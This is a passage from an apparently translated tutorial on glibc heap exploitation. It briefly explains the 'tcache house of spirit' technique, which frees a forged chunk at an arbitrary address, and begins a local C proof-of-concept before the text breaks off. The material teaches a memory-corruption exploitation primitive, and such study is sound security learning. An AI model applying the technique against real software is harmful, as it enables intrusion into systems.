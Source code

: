 Next, apply for two `0x20` size `chunk`, you can see that the printed `chunk_b` and `chunk_c` are both `malloc` pointers of `chunk_a`

![](images/11.png#pic_center)

### tcache house of spirit

The attack method of `tcache house of spirit` is caused by the failure of security checks on the `tcache_put` function.

Since the tcache_put function does not check whether the released pointer is really a `malloc` pointer of the heap block when it is released, if a `size` conforming to `tcache bin size` is constructed, then theoretically, any address can be released as `chunk`

- `tcache house of spirit demo`

```c
// gcc -fno-stack-protector -no-pie -g tcache-house-of-spirit-demo.c -o tcache-house-of-spirit-demo
// patchelf --set-interpreter /home/h3rmesk1t/glibc-all-in-one/libs/2.27-3ubuntu1_amd64/ld-linux-x86-64.so.2 --set-rpath /home/h3rmesk1t/glibc-all-in-one/libs/2.27-3ubuntu1_amd64 tcache-house-of-spirit-demo

#include <stdio.h>
#include <stdlib.h>
#include <assert.h>

int main()
{
	setbuf(stdout, NULL);

	malloc(1);

	unsigned long long *a;
	unsigned long long fake_chunks[10];

	printf("fake_chunk addr is %p\n", &fake_chunks[0]);

	fake_chunks[1] = 0x40;

	a = &fake_chunks[2];
```